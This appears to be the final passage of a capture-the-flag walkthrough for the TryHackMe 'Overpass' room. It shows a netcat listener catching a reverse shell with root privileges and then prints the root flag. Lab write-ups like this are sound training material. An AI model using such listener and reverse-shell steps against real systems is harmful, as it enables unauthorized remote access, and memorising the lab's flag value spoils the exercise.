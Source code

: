 After waiting for a little while, we get a root shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Overpass]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.223] from (UNKNOWN) [10.10.186.26] 36172
bash: cannot set terminal process group (26273): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# id
uid=0(root) gid=0(root) groups=0(root)
root@overpass-prod:~# 
~~~

## Root flag

Now we can go to `/root` and read the root flag:

~~~
root@overpass-prod:~# cd /root
root@overpass-prod:~# ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
~~~

Root flag: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

# D0N3!  ; )

Hope you had fun hacking!

Have a good one!  : )
